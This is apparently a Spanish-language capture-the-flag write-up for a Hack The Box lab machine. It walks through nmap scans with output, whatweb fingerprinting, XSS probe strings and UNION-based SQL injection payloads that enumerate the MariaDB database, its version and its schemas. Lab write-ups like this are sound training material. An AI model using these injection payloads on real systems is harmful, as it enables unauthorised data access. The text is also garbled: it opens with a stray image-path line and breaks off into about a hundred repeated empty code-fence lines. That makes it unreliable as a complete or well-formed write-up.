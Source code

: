Ejecutamos nmap para scanear todos los puertos y guardarlo en un archivo allPorts

```bash
┌─[root@htb-7rejfbvatd]─[/home/outlanderlat]
└──╼ #nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.95.235 -oG
allPortsHost discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-28 16:15 CDT
Initiating SYN Stealth Scan at 16:15
Scanning 10.129.95.235 [65535 ports]
Discovered open port 22/tcp on 10.129.95.235
Discovered open port 80/tcp on 10.129.95.235
Discovered open port 8080/tcp on 10.129.95.235
Discovered open port 4566/tcp on 10.129.95.235
Completed SYN Stealth Scan at 16:15, 13.17s elapsed (65535 total ports)
Nmap scan report for 10.129.95.235
Host is up, received user-set (0.065s latency).
Scanned at 2024-06-28 16:15:06 CDT for 13s
Not shown: 65522 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.25 seconds
           Raw packets sent: 65544 (2.884MB) | Rcvd: 65591 (2.624MB)
```
Analizamos mas el puerto 80

```bash
┌─[root@htb-7rejfbvatd]─[/home/outlanderlat]
└──╼ #nmap -sCV -p22,80,4566,8080 10.129.95.235 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-28 16:18 CDT
Nmap scan report for 10.129.95.235
Host is up (0.065s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.82 seconds
```
Lanzamos whatweb para determinar las tecnologias que se usan
```bash
┌─[root@htb-7rejfbvatd]─[/home/outlanderlat]
└──╼ #whatweb http://10.129.95.235
http://10.129.95.235 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.129.95.235], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
┌─[root@htb-7rejfbvatd]─[/home/outlanderlat]
└──╼ #whatweb http://10.129.95.235:8080
http://10.129.95.235:8080 [502 Bad Gateway] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.129.95.235], Title[502 Bad Gateway], nginx
```
Nos dirigimos al navegador...! en el dormulario e insertamos los siguites textos y vemos que se puede inyectar
```javascript
sk4res, <h1>hola</h1>, <script>alert("XSS")</script>, admin'

```
Vamos a abrir burbsuite, inerceptamos el trafico y alteramos el campo country, observamos que 
la base de datos es Registration y 
la version es 10.5.11-MariaDB-1
las otras bases de datos son information_schema, performance_schema, mysql, registration

```bash
burbsuite &> /dev/null/ &
username=admin&country=Brazil' union select database()-- -
username=admin&country=Brazil' union select version()-- -
username=admin&country=Brazil' union select schema_name from information_schema.schemata-- -
```
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash
```bash






